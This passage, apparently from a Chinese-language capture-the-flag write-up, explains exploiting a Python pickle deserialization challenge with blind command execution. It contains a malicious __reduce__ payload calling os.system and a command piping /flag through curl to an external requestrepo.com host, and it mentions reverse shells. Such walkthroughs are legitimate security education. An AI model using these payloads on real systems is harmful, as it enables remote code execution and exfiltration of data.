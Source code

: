 ```python

client.close()
```

这样执行命令是没有回显的，需要将数据带出来，如果有公网 IP 可以考虑反弹 Shell，没有也没关系，推荐使用 [http://requestrepo.com/](http://requestrepo.com/)，可以记录 DNS 和 HTTP 请求，并且可以自定义返回内容。

使用 nslookup 测试数据能否带出（如果使用 `ping` 记得指定 `-c` 选项以免卡死靶机）：

```python
class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("nslookup kv4ie0su.requestrepo.com",))
```

可以看到有几次 DNS 请求：

![nslookup](../../assets/images/writeups/2024/svuctf_spring_2024/pickle/nslookup.png)

带出数据的方式有很多种，举个使用 CURL 的例子，把命令结果放在 POST 请求体里：

```
cat /flag | curl kv4ie0su.requestrepo.com -d@-
```

![flag](../../assets/images/writeups/2024/svuctf_spring_2024/pickle/flag.png)

